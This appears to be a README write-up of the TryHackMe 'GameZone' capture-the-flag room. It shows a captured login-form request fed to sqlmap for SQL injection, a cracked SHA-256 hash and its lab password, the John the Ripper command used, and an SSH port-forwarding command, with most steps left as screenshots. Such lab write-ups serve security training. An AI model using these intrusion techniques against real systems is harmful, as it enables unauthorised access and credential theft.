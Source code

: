# GameZone_tryhackme
gamezone tryhackme understanding sqlmap,hashcracking,ssh tunnel and priviledge escalation
![](login_page.png)


POST /portal.php HTTP/1.1
Host: 10.10.116.228
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.116.228/portal.php
Content-Type: application/x-www-form-urlencoded
Content-Length: 15
Connection: close
Cookie: PHPSESSID=94hrt1bh289hbfc25js3aqkvb0
Upgrade-Insecure-Requests: 1

searchitem=test


![](sqlmap_details.png)


![](user_txt_agent47.png)


## agent47:ab5db915fc9cea6c78df88106c6500c57f2b52901ca6c0c6218f04122c3efd14
## hash cracking password found:videogamer124
### command john hash.txt --wordlist=rockyou.txt --format=Raw-SHA256

![](checking_sockets.png)
## ssh tunneling command
# ssh -L 10000:localhost:10000 agent47@10.10.73.54
## login credentials we already know username: agent47 password:videogamer124

![](ssh_tunneling_result.png)
![](metasploitable1.png)
